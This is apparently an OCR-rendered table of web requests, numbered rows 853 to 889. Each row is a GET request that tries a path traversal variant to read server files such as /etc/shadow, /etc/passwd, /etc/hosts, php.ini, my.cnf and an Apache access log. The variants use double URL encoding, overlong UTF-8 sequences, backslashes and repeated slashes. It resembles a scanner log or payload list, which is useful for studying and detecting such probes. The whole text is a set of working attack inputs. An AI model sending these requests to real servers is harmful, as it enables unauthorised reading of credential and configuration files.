 |  853 |                     1 | GET /////////////etc/hostname HTTP/1.1                                                                               |
|  854 |                     1 | GET //.//.//.//.//.//./etc/hostname HTTP/1.1                                                                         |
|  855 |                     1 | GET /../../../../../../etc/hostname HTTP/1.1                                                                         |
|  856 |                     1 | GET /..%252f..%252f..%252f..%252f..%252f..%252fetc/hostname HTTP/1.1                                                 |
|  857 |                     1 | GET /?source=../../../../etc/mysql/my.cnf HTTP/1.1                                                                   |
|  858 |                     1 | GET /..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%afetc/hostname HTTP/1.1                         |
|  859 |                     1 | GET /..\x5C..\x5C..\x5C..\x5C..\x5C..\x5Cetc/hostname HTTP/1.1                                                       |
|  860 |                     1 | GET /..%5c..%5c..%5c..%5c..%5c..%5cetc/hostname HTTP/1.1                                                             |
|  861 |                     1 | GET /..%255c..%255c..%255c..%255c..%255c..%255cetc/hostname HTTP/1.1                                                 |
|  862 |                     1 | GET /etc/php.ini HTTP/1.1                                                                                            |
|  863 |                     1 | GET ///////etc/php.ini HTTP/1.1                                                                                      |
|  864 |                     1 | GET /////////////etc/php.ini HTTP/1.1                                                                                |
|  865 |                     1 | GET //.//.//.//.//.//./etc/php.ini HTTP/1.1                                                                          |
|  866 |                     1 | GET /../../../../../../etc/php.ini HTTP/1.1                                                                          |
|  867 |                     1 | GET /..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%afetc/hostname HTTP/1.1                                           |
|  868 |                     1 | GET /..%5c..%5c..%5c..%5c..%5c..%5cetc/passwd HTTP/1.1                                                               |
|  869 |                     1 | GET /..%255c..%255c..%255c..%255c..%255c..%255cetc/passwd HTTP/1.1                                                   |
|  870 |                     1 | GET /etc/shadow HTTP/1.1                                                                                             |
|  871 |                     1 | GET ///////etc/shadow HTTP/1.1                                                                                       |
|  872 |                     1 | GET /////////////etc/shadow HTTP/1.1                                                                                 |
|  873 |                     1 | GET //.//.//.//.//.//./etc/shadow HTTP/1.1                                                                           |
|  874 |                     1 | GET /../../../../../../etc/shadow HTTP/1.1                                                                           |
|  875 |                     1 | GET /..%252f..%252f..%252f..%252f..%252f..%252fetc/shadow HTTP/1.1                                                   |
|  876 |                     1 | GET /..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%afetc/shadow HTTP/1.1                                             |
|  877 |                     1 | GET /..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%afetc/hosts HTTP/1.1                            |
|  878 |                     1 | GET /..\x5C..\x5C..\x5C..\x5C..\x5C..\x5Cetc/shadow HTTP/1.1                                                         |
|  879 |                     1 | GET /..%5c..%5c..%5c..%5c..%5c..%5cetc/shadow HTTP/1.1                                                               |
|  880 |                     1 | GET /..%255c..%255c..%255c..%255c..%255c..%255cetc/shadow HTTP/1.1                                                   |
|  881 |                     1 | GET /etc/hosts HTTP/1.1                                                                                              |
|  882 |                     1 | GET ///////etc/hosts HTTP/1.1                                                                                        |
|  883 |                     1 | GET /////////////etc/hosts HTTP/1.1                                                                                  |
|  884 |                     1 | GET //.//.//.//.//.//./etc/hosts HTTP/1.1                                                                            |
|  885 |                     1 | GET /../../../../../../etc/hosts HTTP/1.1                                                                            |
|  886 |                     1 | GET /..%252f..%252f..%252f..%252f..%252f..%252fetc/hosts HTTP/1.1                                                    |
|  887 |                     1 | GET /..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%afetc/hosts HTTP/1.1                                              |
|  888 |                     1 | GET /..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%afetc/shadow HTTP/1.1                           |
|  889 |                     1 | GET /..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%afvar/log/apache2/access.log HTTP/1.1           |